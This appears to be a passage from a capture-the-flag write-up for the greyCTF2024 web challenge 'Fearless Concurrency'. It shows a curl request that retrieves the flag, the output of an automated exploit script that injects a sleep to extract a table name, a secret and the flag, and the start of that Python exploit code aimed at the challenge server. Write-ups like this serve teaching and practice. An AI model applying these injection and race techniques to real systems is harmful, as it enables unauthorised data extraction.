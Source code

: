 6. Get Flag
	```
	{"user_id":15428637266543480840,"secret":1679592540}
	```
	```   
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -s -H "Content-Type: application/json" http://challs.nusgreyhats.org:33333/flag -d @"json/get_flag.json"
	grey{ru57_c4n7_pr3v3n7_l061c_3rr0r5}  
	```

- Demo 

	<video muted autoplay controls style="width: 740px; height: 460px;">
		<source src="{{site.cdn}}{{page.img_path}}2YHcR4CJY5.mp4" type="video/mp4">
	</video>



### Auto

1. Run script
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ python3 test.py
	[*] registered user 1
	[*] registered user 2
	[*] injecting sleep
	[*] extracting table, secret and flag
	[*] retrieved table name: tbl_17d6277119176dd65f3673d9718b80e8fa2a9f8b_3690022472
	[*] retrieved secret: 2527089681
	[*] retrieved flag: grey{ru57_c4n7_pr3v3n7_l061c_3rr0r5}
	[*] slept
	```
2. Demo 

	<video muted autoplay controls style="width: 740px; height: 460px;">
		<source src="{{site.cdn}}{{page.img_path}}C4uRasuuAF.mp4" type="video/mp4">
	</video>

{% raw %}
## Code


```python
import requests
import threading
import time
import hashlib


##proxies = {'http': 'http://127.0.0.1:8080'}
URL = "http://challs.nusgreyhats.org:33333"

def get_hash(user_id):
    hasher = hashlib.sha1()
    hasher.update(b'fearless_concurrency')
    hasher.update(user_id.to_bytes((user_id.bit_length() + 7) // 8, byteorder='little'))
    table_prefix = f"tbl_{hasher.hexdigest()}"
    return table_prefix
    
def register():
    url = "http://challs.nusgreyhats.org:33333/register"
    r = requests.post(url)
    return int(r.text)

```